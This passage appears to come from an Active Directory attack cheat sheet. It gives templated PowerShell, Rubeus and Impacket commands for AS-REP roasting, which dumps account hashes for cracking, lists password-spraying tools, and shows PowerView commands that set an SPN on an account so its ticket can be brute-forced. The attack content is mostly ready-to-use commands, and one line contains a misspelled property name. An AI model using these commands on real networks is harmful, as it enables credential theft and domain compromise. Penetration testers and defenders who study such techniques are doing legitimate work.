- And finally execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.

  ```powershell
  #Get a specific Accounts hash:
  Get-ASREPHash -UserName <UserName> -Verbose

  #Get any ASREPRoastable Users hashes:
  Invoke-ASREPRoast -Verbose
  ```

- Using Rubeus:

  ```powershell
  #Trying the attack for all domain users
  Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>

  #ASREPRoast specific user
  Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>

  #ASREPRoast users of a specific OU (Organization Unit)
  Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
  ```

- Using Impacket:

  ```powershell
  #Trying the attack for the specified users on the file
  python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
  ```

### Password Spray Attack

If we have harvest some passwords by compromising a user account, we can use this method to try and exploit password reuse
on other domain accounts.

**Tools:**

- [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
- [Spray](https://github.com/Greenwolf/Spray)

### Force Set SPN

_WUT IS DIS ?:
If we have enough permissions -> GenericAll/GenericWrite we can set a SPN on a target account, request a TGS, then grab its blob and bruteforce it._

- PowerView:

  ```powershell
  #Check for interesting permissions on accounts:
  Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}

  #Check if current user has already an SPN setted:
  Get-DomainUser -Identity <UserName> | select serviceprincipalname

  #Force set the SPN on the account:
  Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
  ```
